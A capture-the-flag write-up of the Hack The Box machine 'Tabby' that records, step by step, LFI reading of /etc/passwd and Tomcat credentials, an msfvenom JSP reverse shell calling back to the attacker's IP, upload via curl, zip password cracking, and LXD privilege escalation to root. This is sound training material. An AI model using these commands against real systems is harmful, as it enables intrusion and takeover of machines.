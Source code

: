 # Tabby

![cover](images/cover.png)

Tabby is a medium box that involved using LFI to find Tomcat credentials, then using these credentials to upload a reverse shell. To get user, we brute forced a password on a backup zip file and using this password to switch user and get the user flag. Then using lxd to privilege escalate to root.

# Overview
- Enumeration of the target
- Using LFI to find credentials
- Using the credentials to upload a reverse shell
- Discovering the backup zip file and cracking the password
- Using the password to switch to ash
- user.txt
- Using lxd to privilege escalate
- root.txt

# Enumeration

## Nmap

```bash
finlay@kali:~/htb/tabby$ nmap -sC -sV 10.10.10.194
Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 10.10.10.194
Host is up (0.054s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.45 seconds
```

We can see ssh, a website, and an Apache Tomcat interface on port 8080. Let's start by enumerating the website.

![website](images/website.png)

Looking around we find a news page on the navigation bar, if we click on it, it takes us to `http://megahosting.htb/news.php?file=statement`. If we add `megahosting.htb` to our /etc/hosts file, we can see what's on the page.

![website](images/news.png)

We can do an LFI attack on this page to read various files on the target. For example to read /etc/passwd:

![passwd](images/passwd.png)

After doing some research, we find that apache tomcat credentials are stored in `/usr/share/tomcat9/etc/tomcat-users.xml`. If we read this file and view the source, we can find the password: `$3cureP4s5w0rd123!`.

![creds](images/creds.png)

# Exploitation

## Getting a shell

Now we can upload and execute a java reverse shell.

First, we need to create the shell, I used `msfvenom`.

```bash
finlay@kali:~/htb/tabby$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.16 LPORT=4444 -f war > shell.war
Payload size: 1101 bytes
Final size of war file: 1101 bytes
```

Second, we can upload the shell with `curl`

```bash
finlay@kali:~/htb/tabby$ curl -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war 'http://10.10.10.194:8080/manager/text/deploy?path=/shell'
OK - Deployed application at context path [/shell]
```

Then, we can set up a listener on the port we specified earlier.

```bash
finlay@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
```

Finally, we get the target to execute our shell:

```bash
finlay@kali:~/htb/tabby$ curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/shell/
```

And we see that we get a shell on our listener:

![tomcat_shell](images/tomcat_shell.png)

## Getting user

If we search around on the box, we find a file called `16162020_backup.zip`. I transferred it back to my box using netcat to take a closer look.

If we try to unzip it, it requires a password. We can crack this password with `fcrackzip`.

```bash
finlay@kali:~/htb/tabby$ fcrackzip -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip 
possible pw found: admin@it ()
```

After unzipping the file with this password, we don't find anything interesting, but we can try using this password to switch to the ash user.

![user_shell](images/user_shell.png)

## User.txt

It worked! Now we can find the user flag in /home/ash

![user_flag](images/user_flag.png)

# Privilege Escalation

To learn how to get root, [this](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation#method-2) article was very helpful.

First, we need to build an lxd image locally.

```bash
finlay@kali:~/htb/tabby$ git clone https://github.com/saghul/lxd-alpine-builder.git
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 27, done.
remote: Total 27 (delta 0), reused 0 (delta 0), pack-reused 27
Unpacking objects: 100% (27/27), 15.98 KiB | 221.00 KiB/s, done.
finlay@kali:~/htb/tabby$ cd lxd-alpine-builder/
finlay@kali:~/htb/tabby/lxd-alpine-builder$ ls
build-alpine  LICENSE  README.md
finlay@kali:~/htb/tabby/lxd-alpine-builder$ sudo bash build-alpine
...
finlay@kali:~/htb/tabby/lxd-alpine-builder$ ls
alpine-v3.12-x86_64-20201105_1332.tar.gz  build-alpine  LICENSE  README.md
```

Now we need to transfer to `.tar.gz` file to the target, I did this with a python http server.

Second, we need to import the image:

```bash
ash@tabby:/tmp/tmp$ lxc image import ./alpine-v3.12-x86_64-20201105_1332.tar.gz --alias myimage
Image imported with fingerprint: 1df12bda1e3adf92657618cd3b2e0e4667d544e342226004aaca19705209ed60
```

Third, we need to run the image:

```bash
ash@tabby:/tmp/tmp$ lxc init myimage mycontainer -c security.privileged=true
Creating mycontainer
```

Then, we can mount /root into the image:

```bash
ash@tabby:/tmp/tmp$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to mycontainer
```

Finally, we can interact with the container:

```bash
ash@tabby:/tmp/tmp$ lxc start mycontainer
ash@tabby:/tmp/tmp$ lxc exec mycontainer /bin/sh
~ # whoami
root
```

## Root.txt

And we find the root flag in /mnt/root/root

![root_flag](images/root_flag.png)
